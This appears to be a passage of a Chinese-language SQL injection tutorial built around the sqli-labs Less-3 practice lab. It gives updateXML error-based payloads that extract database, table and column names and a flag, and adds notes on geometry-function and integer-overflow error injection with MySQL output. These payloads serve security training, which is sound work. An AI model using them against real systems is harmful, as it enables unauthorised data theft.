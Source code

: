 

##### 实例`sqli-labs/Less-3`

获取所有数据库

```url
id=-1') and updateXML(1,(select concat('~',mid(group_concat(database()),1,32))),1) %23
# 记住，updateXML和extractvalue函数都有着长度限制，32位。
```

获取所有的表名

```url
id=-1') and updateXML(1,concat('~',(select mid(group_concat(table_name),1,32) from information_schema.tables where table_schema='answers')),1) %23
```

获取所有的列名

```url
id=-1') and updateXML(1,concat('~',(select mid(group_concat(column_name),1,32) from information_schema.columns where table_name='flags')),1) %23
```

获取flag

```url
id=-1') and updateXML(1,concat('~',(select mid(group_concat(flag),1,32) from answers.flags)),1) %23
```





## 几何函数报错

几何函数的报错注入利用基本上只能在较低版本的 MySQL 中使用。

> 利用版本：5.5< MySQL版本<5.6





## 整数溢出报错

这个报错基于MySQL中整数溢出的原理,不仅仅只有如下的几种方法

> [!NOTE]
>
> BIGINT UNSIGNED不能表示负数

```mysql
mysql> select ~0;
+----------------------+
| ~0                   |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)
mysql> select ~(select version());
+----------------------+
| ~(select version())  |
+----------------------+
| 18446744073709551610 |
+----------------------+
1 row in set, 1 warning (0.00 sec)
mysql> select ~(select user());
+----------------------+
| ~(select user())     |
+----------------------+
| 18446744073709551615 |
+----------------------+
```